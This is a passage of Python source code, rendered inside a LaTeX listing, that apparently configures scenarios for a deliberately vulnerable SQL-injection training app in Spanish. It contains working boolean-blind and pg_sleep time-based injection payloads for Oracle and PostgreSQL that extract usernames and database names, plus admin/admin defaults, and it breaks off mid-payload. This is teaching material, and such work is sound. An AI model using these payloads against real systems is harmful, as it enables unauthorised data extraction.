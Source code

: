 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[language=Python]
                "usuario":"d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 1, 1) = 'a') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --",
                "password":"d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 1, 1) = 'z') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --"
            },
            {
                "nombre":"Sacando un carácter de un campo (PostgreSQL)",
                "usuario":"d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTRING(username FROM 1 FOR 1) = 'a') THEN 1 ELSE 999 END FROM (SELECT username, ROW_NUMBER() OVER() AS rn FROM Usuarios) AS subquery WHERE rn=1) = 1 --",
                "password":"d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTRING(username FROM 1 FOR 1) = 'z') THEN 1 ELSE 999 END FROM (SELECT username, ROW_NUMBER() OVER() AS rn FROM Usuarios) AS subquery WHERE rn=1) = 1 --"
            }
        ],
        "usuario": "admin",
        "clave": "admin",
        "route_oracle": "login_oracle_blind_boolean",
        "route_postgres": "login_postgres_blind_boolean",
        "function_oracle": login_inseguro_blind_no_cookie_oracle,
        "function_postgres": login_inseguro_blind_no_cookie_postgresql
    },
    "time_based": {
        "title": "Time-Based Blind SQL Injection",
        "is_blind": True,
        "description": """
            <p>Es una técnica utilizada por atacantes para extraer información de una base de datos cuando la aplicación no muestra directamente los resultados de las consultas SQL ni proporciona mensajes de error detallados. En este escenario, el atacante infiere información observando los retrasos en las respuestas de la aplicación al enviar consultas que provocan demoras condicionales en la base de datos.</p>
        """,
        "dificultad": 3,
        "impacto": 3,
        "credenciales":[{
            "nombre": "Obtener nombres de usuarios (POSTGRESQL)",
            "usuario": "' AND ( LEFT((SELECT string_agg(username, ',') FROM Usuarios), 1) <> 'a' OR ( LEFT((SELECT string_agg(username, ',') FROM Usuarios), 1) = 'a' AND ( SELECT NULL FROM pg_sleep(2) ) IS NULL ) ) --",
            "password": "cualquier_input"
        },
            {
                "nombre": "Obtener nombres de la base de datos (POSTGRESQL)",
                "usuario": """  '
  AND (
    left(current_database(), 1) <> 'E' 
    OR (
      left(current_database(), 1) = 'E' 
      AND EXISTS (SELECT 1 FROM pg_sleep(1))
    )
  )
--

\end{lstlisting}
\end{document}
